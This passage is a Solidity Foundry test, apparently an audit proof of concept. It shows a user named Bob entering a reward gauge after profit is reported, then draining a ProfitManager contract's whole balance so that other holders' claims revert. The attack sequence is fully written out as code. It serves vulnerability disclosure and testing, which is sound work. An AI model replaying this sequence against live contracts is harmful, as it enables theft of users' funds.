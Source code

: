 ```solidity
		profitManager.notifyPnL(gauge1, 30e18);
		profitManager.notifyPnL(gauge2, 30e18);

		// ps: because of ProfitSharingConfig set to 50% to creditSplit and 50% guildSplit
		// only half of the profit stays in ProfitManager, the other half is directly transfered to credit holders
		// thus, balance of profitManager is 70e18
		assertEq(credit.balanceOf(address(profitManager)), 70e18);

        // let's move to the next block to shows no need to MEV this
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 13);

		//Bob see's the positive PnL on gauge1 and increment the gauge
		uint256 gaugeToIncrementToGetAllBalance = credit.balanceOf(address(profitManager)) *100 /15 +1; 
		guild.mint(bob, gaugeToIncrementToGetAllBalance);
		vm.prank(bob);
		guild.incrementGauge(gauge1, gaugeToIncrementToGetAllBalance); 

		// Check and assert alice, bob, and carol's pending rewards
		(, uint256[] memory aliceGaugeRewards, /*uint256 aliceTotalRewards*/) = profitManager.getPendingRewards(alice);
		(, uint256[] memory bobGaugeRewards, /*uint256 bobTotalRewards*/) = profitManager.getPendingRewards(bob);
		(, uint256[] memory carolGaugeRewards, /*int256 carolTotalRewards*/) = profitManager.getPendingRewards(carol);

		//pending rewards are greater than profitManager total balance
		assertEq(aliceGaugeRewards[0], 7500000000000000000);
		assertEq(bobGaugeRewards[0], 70000000000000000000);
		assertEq(carolGaugeRewards[0], 7500000000000000000);
		assertEq(
			aliceGaugeRewards[0] + bobGaugeRewards[0] + carolGaugeRewards[0] 
			> credit.balanceOf(address(profitManager))
			, true
		);

		//Bob has cheated, he is able to claim even more than Alice and Carol even though he entered the gauge after the PnL!
		profitManager.claimRewards(bob);
		
		//Alice and Carol cannot claim even if they should
		vm.expectRevert("ERC20: transfer amount exceeds balance");
		profitManager.claimRewards(alice);
		vm.expectRevert("ERC20: transfer amount exceeds balance");
		profitManager.claimRewards(carol);

		// Bob stole all the profitManager balance
		assertEq(credit.balanceOf(bob), 70000000000000000000);
		assertEq(credit.balanceOf(address(profitManager)), 0);
		assertEq(credit.balanceOf(alice), 0);
		assertEq(credit.balanceOf(carol), 0);
    }
```
